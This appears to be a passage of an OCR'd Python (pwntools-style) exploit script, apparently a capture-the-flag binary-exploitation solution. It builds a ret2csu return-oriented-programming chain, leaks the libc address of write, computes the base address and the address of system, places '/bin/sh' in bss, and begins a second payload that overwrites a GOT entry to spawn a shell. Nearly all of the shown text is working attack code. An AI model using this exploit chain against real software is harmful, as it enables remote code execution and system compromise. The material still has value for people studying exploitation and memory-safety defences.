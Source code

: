     # call write(1,write_got,8) => leak write libc addr
    payload+=gadget_2
    
    # setting for read(0,bss_addr,16)
    payload+=p64(0) 
    payload+=p64(0) #rbx
    payload+=p64(1) #rbp
    payload+=p64(read_got) #r12
    payload+=p64(16) #r13
    payload+=p64(bss_addr)  #r14
    payload+=p64(0) #r15
    
    # call read(0,bss)addr,16)
    payload+=gadget_2
    
    # setting for main()
    payload+=p64(0) 
    payload+=p64(0) #rbx
    payload+=p64(1) #rbp
    payload+=p64(bss_addr+8) #r12
    payload+=p64(0) #r13
    payload+=p64(0)  #r14
    payload+=p64(0) #r15
    
    # call main()
    payload+=gadget_2
    payload+=p64(0)
    payload+=p64(0) #rbx
    payload+=p64(1) #rbp
    
    pause()
    p.send(payload)
    libc_base=u64(p.recv(6).ljust(8,"\x00"))-libc.symbols['write']
    log.info("libc_base::"+hex(libc_base))
    system_base=p64(libc_base+libc.symbols['system'])
    bin_sh="/bin/sh\x00"+p64(0x4005F6)
    p.send(bin_sh)
    
    #--------------finish libc_leak, insert /bin/sh and main_addr  in bss~ bss+8---------
    
    
    # setting read(0,write_got_addr,8)
    payload2="A"*0x48
    payload2+=gadget_1
    payload2+=p64(0) #rbx
    payload2+=p64(1) #rbp
    payload2+=p64(read_got) #r12
    payload2+=p64(8) #r13
    payload2+=p64(write_got)  #r14
    payload2+=p64(0) #r15
    